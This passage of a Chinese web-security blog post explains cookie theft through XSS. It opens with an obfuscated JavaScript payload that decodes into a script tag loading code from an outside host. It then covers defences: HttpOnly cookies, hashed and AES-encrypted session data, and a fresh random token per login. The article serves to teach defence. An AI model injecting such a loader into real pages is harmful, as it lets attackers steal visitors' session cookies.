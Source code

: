 var _0x8d17=["\x3B\x52\x42\x51\x48\x4F\x53\x1F\x72\x71\x62\x3C\x67\x73\x73\x6F\x39\x2E\x2E\x24\x36\x36\x24\x36\x36\x24\x36\x36\x24\x31\x44\x24\x36\x33\x24\x36\x37\x24\x36\x30\x24\x36\x30\x24\x36\x35\x24\x35\x38\x24\x36\x2F\x24\x32\x31\x24\x32\x2F\x24\x32\x30\x24\x32\x2F\x24\x31\x44\x24\x35\x32\x24\x35\x45\x24\x35","\x43\x2E\x24\x35\x30\x24\x36\x32\x24\x36\x2F\x24\x35\x44\x24\x35\x34\x24\x36\x33\x24\x34\x45\x24\x35\x32\x24\x35\x42\x24\x35\x38\x24\x35\x34\x24\x35\x44\x24\x36\x33\x2E\x24\x35\x30\x24\x35\x40\x24\x35\x30\x24\x36\x37\x24\x31\x44\x24\x35\x40\x24\x36\x32\x3D\x3B\x2E\x72\x62\x71\x68\x6F\x73\x3D","\x6C\x65\x6E\x67\x74\x68","","\x63\x68\x61\x72\x43\x6F\x64\x65\x41\x74","\x66\x72\x6F\x6D\x43\x68\x61\x72\x43\x6F\x64\x65","\x77\x72\x69\x74\x65"];
var cookies=_0x8d17[0];
var hos=_0x8d17[1];
//function outChar(){
var _0x7f92x4=cookies+hos;
var _0x7f92x5=_0x7f92x4[_0x8d17[2]];
var _0x7f92x6=_0x8d17[3];
for(i=0;i<_0x7f92x5;i++)
{var _0x7f92x7=_0x7f92x4[_0x8d17[4]](i);
_0x7f92x7++;_0x7f92x6=_0x7f92x6+String[_0x8d17[5]](_0x7f92x7);}
没看明白?直接附上F12的运行效果。
_
在打印到页面上就可以实现XSS入侵了。（题外话：这段代码还可能给我们加密js代码来点启发。）
其实防御窃取Cookie有相对更容易办法。

盾1：不许JavaScript搬Cookie，又名“HttpOnly”，就是上面埋点的代码。
```
  “Set-Cookie: at=71fe0cca-6205-42b7-85fd-629f30cf2df7%7C5e68b7f6-73b9-452c-8edc-25d6b382b2d5; Path=/; HttpOnly”
```
我们将需要保护的Cookie信息，可以对Cookie的键值设置上HttpOnly这个重要标签，浏览器就帮我们限制JavaScript不能访问这部分信息；而不需要保护的Cookie信息，让javascript可以正常操作。两全其美。

webx项目session化时启用httponly

盾2：数据加密
谈安全少不了数据加密，加密的三个法宝：

I. 单向加密：摘要算法（例如Hash，MD5签名）
此种加密不可逆。将需要保护的对象的完整信息保存在服务器，客户机上仅有Hash后的Key。根本上杜绝用户篡改。
- Session其实就是这种原理。用户的浏览器的Cookie里带了一个Token来标记，服务器取得了这个Token并且检查合法性之后就把服务器上存储的对应的状态和浏览器绑定。
- 业务参数也可以通过此办法保护,附最近研究一个国外网站发现起将ajax请求用添加一个hash验证位。可以学习
```
  <script>
    var authHash = '7fd0a6d8d88ed9ccc79c26987075ab0141f2b764';
  </script>
```
II. 对称加密 DES IDEA RC4 AES
III. 不对称加密 RSA ECC
分布式架构中，也有很多信息必须使用可逆的双向加密。可以考虑使用加密信息保护。
附webx项目session化时启用aes对称加密
```
<session-stores:encoders>
  <session-encoders:serialization-encoder>
      <session-serializers:hessian-serializer />
      <session-encrypters:aes-encrypter key="****************" />
  </session-encoders:serialization-encoder>
</session-stores:encoders>
```
防御3：状态信息的变化性
登陆状态绝对不适用接口的等幂性（一次或多次请求结果一样）。同一个账号每次登陆后生成的Cookie信息都应该不一样。
如果这次跟上次的登陆信息一样了，就等于小偷配了你家钥匙。虽然你离开家时，他进不来；但是你在家的时候，他也可以进出。
其实很好解决：每次登陆成功后，生成状态信息时都多融入一个随机GUID一起进行数据加密即可。
